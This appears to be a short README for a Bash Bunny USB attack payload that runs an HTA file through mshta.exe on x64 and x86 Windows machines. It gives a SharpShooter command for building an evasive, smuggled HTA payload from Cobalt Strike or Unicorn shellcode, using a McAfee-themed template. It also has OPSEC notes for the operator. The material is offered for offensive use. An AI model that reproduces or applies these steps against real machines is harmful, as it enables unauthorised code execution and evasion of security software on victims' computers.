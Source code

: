 ## Script for executing an HTA payload on x64 and x86 machines

# Create the HTA payload using Cobalt Strike / Unicorn whatever and SharpShooter for evasion

python SharpShooter.py  --dotnetver 2  --payload hta --rawscfile payload.bin --smuggle --output payload --template mcafee --stageless

Place the script and the payload.hta in either the Switch1 or Switch2 folder of the Bash Bunny


### OPSEC considerations

- The script will attempt to run the HTA file twice. Once for x64 and once for x86
- the script uses mshta.exe. Adjust it according to your situation
